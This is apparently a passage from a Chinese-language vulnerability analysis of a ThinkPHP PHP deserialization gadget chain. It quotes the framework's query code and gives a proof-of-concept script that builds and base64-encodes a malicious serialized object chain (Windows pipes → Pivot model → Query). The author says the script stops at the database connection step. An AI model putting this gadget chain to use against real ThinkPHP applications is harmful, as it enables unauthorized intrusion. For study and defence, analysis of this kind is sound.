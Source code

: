 ```
    $sql = 'SHOW COLUMNS FROM ' . $tableName;
    //调用query()
    $pdo = $this-&gt;query($sql, [], false, true);
`}`
========
think/db/Connection.php
public function query($sql, $bind = [], $master = false, $pdo = false)
`{`
    //数据库连接配置
    //这里会在下文详细说
    $this-&gt;initConnect($master);
    $this-&gt;PDOStatement = $this-&gt;linkID-&gt;prepare($sql);
    $this-&gt;PDOStatement-&gt;execute();
`}`
```

**<a class="reference-link" name="%E6%B5%8B%E8%AF%95POC"></a>测试POC**

这里给出个POC，如果没看懂的话跟着POC开Debug走一走流程就明白调用过程了 = =

**备注：该POC运行到 `think/db/Connection.php connect()` 将会由于没有传入正确数据库配置而报错停止运行。这里我们**明白调用流程**即可**

```
&lt;?php
namespace think`{`
    abstract class Model`{`
        //toArray()中
        //为了使得能够进入if判断并foreach
        //需要控制该成员变量
        //值为被调用的任意本类方法，即save()
        protected $append = [
            'save'
        ];
        protected $table = 'xxx';
        //buildQuery()中
        //为了能够实例化Query类
        //需要控制该成员变量
        protected $query = '\think\db\Query';
    `}`
`}`

namespace think\model`{`
    //继承抽象类 Model
    class Pivot extends \think\Model`{`
    `}`
`}`

namespace think\process\pipes`{`
    class Windows`{`
        private $files = [];
        public function __construct()`{`
            //!!!!
            //由于Model类是抽象类，我们只能实例化其子类
            //!!!!
            $this-&gt;files[] = new \think\model\Pivot();
        `}`        
    `}`
`}`
namespace`{`
    //入口点 __destruct()
    $a = new \think\process\pipes\Windows();
    echo base64_encode(serialize($a));
`}`
?&gt;
```
